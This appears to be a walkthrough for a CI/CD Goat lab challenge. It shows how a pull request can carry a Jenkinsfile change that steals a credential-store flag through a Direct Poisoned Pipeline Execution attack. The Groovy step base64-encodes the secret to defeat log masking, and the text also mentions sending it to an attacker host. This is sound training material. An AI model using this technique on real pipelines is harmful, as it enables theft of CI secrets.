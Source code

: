 [![CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://img.shields.io/badge/CICD--SEC--4-Poisoned%20Pipeline%20Execution%20(PPE)-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)

Create a pull request and execute a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack against the _Wonderland/white-rabbit_ repository to steal the _flag1_ secret.

The flag is stored in the Jenkins credential store with the Global scope, which makes it accessible to any pipeline on the Jenkins instance.

1. Clone the _Wonderland/white-rabbit_ repository.
2. Checkout to a new branch.

    ```shell
    git checkout -b challenge1
    ```

3. Modify the Jenkinsfile to load _flag1_, and print it to the Jenkins build console output which you have access to (encode it so it won’t be masked), or send it to a host you control.

    ```groovy
    stage ('Install_Requirements') {
        steps {

            withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
                sh '''
                    echo $flag1 | base64
                '''                 
            }
        }
    }
    ```

4. Push the changes to the remote branch and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the encoded secret.
![white-rabbit](../images/white_rabbit.png "white-rabbit")